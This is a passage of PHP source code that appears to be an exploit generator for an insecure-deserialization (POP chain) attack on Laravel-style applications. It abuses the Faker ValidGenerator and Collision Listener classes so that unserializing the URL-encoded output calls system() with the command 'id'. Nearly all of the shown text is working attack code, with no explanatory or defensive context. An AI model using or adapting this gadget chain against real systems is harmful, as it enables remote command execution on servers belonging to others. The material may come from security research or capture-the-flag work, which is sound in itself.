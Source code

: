 ```php
	}
}
namespace Faker {
	class ValidGenerator{
    	protected $generator ;
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){
    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";
    	}
    }
    class DefaultGenerator{
    	protected $default="id";
    }
}
namespace {

	$a = new NunoMaduro\Collision\Adapters\Phpunit\Listener();
	echo urlencode(serialize($a));
}
?>
```

